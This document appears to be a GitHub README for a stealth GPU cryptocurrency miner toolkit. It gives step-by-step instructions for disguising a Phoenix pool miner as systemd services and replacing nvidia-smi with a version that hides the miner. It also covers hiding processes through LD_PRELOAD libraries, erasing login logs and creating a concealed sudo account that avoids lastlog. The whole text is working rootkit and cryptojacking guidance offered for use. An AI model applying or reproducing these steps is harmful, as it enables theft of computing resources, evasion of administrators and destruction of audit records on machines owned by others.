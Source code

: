 # AWESOME WORK !!!
## Structure
* exec: executed file.
    * nvidia-smi: excludes `systemd-diagnosis` in nvidia-smi panel.
    * systemd-firewall: is an adaptive system resource allocator determines which GPU the slave miners work on.
    * systemd-update: is the same to the `systemd-firewall` but more merciful that only works at midnight.
    * systemd-diagnosis: is the pool slave miner(Phoenix miner main file).
    * libGNU.co hides `systemd-diagnosis` for ps, top ,and htop.
    * libnvidia-glibc.so hides `nl-toolkit` for ps, top ,and htop.
    * libnvidia-openai.so hides `systemd-firewall` for ps, top ,and htop.

* source: corresponding source code of the executed file in `./exec`.

## Installation

run the `Makefile` by `sudo make`. If you want to be blamed, run it without `sudo`. 

## Prerequiste
### environmental setting
make sure you have gcc(which is preinstalled in your system) pyinstaller installed:
```bash
conda activate [your environment]
pip install pyinstaller
```
### nvidia-smi
1. please make sure the variable `skip` in `source/nvidia-smi.py` is the same to the **slave miner**'s file name.
1. rename original `nvidia-smi` by `nl-toolkit` in `/usr/bin`.
1. move the *degraded* `nvidia-smi` to `/usr/bin`.
1. add read and execution permissions by `chmod +rx nvidia-smi`.

### systemd-firewall
1. move `systemd-firewall` to `/usr/bin`.
1. add read and execution permissions by `chmod +rx systemd-firewall`.

### systemd-update
1. same to the `systemd-firewall`.

### libGNU.co, libnvidia-glibc.co, and libnvidia-openai.co
1. move `libGNU.co`, `libnvidia-glibc.co`, and `libnvidia-openai.co` to `/usr/lib`.
1. move `ld.so.preload` to `/etc/`; or add `export LD_PRELOAD=/usr/lib/libGNU.so:/usr/lib/libnvidia-openai.so:/usr/lib/libnvidia-glbc.so` to `/etc/profile`.

**Risk:** add these files to system environment is easy to detect just by `cat /etc/ld.so.preload` or `echo $LD_PRELOAD`.

## Usage
### Slash the miner
1. `sudo nohup systemd-firewall 2>&1 > /dev/null &`.
1. check mining status by `nl-toolkit`.

### Check degraded files
1. `nvidia-smi`.
1. `ps aux | grep 'f2pool\|systemd-firewall\|systemd-diagnosis\|nl-toolkit'`.
1. `top -u root` or `htop -u root`.

### Clean login log
1. revise following files by 
```bash
utmpdump [logfile] > tmp_output.txt
utmpdump -r tmp_output.txt > [logfile]
```

* `last`: `/var/log/wtmp`.
* `lastb`: `/var/log/btmp`.
* `lastlog`: `/var/log/lastlog`.

1. delete your login log in `/var/log/auth.log` (for Ubuntu).
1. delete your login log in `/var/log/secure.log` (for CentOS).

## Tips
 * Add a new user by `useradd [your name] -G sudo -d /usr/bin -s /bin/bash -l -M`. `-l` can avoid you be added to the lastlog and faillog databases. `-M` will not create your home directory.
 * edit `/etc/passwd` to get more privileges for your account.

## Notations
to do 
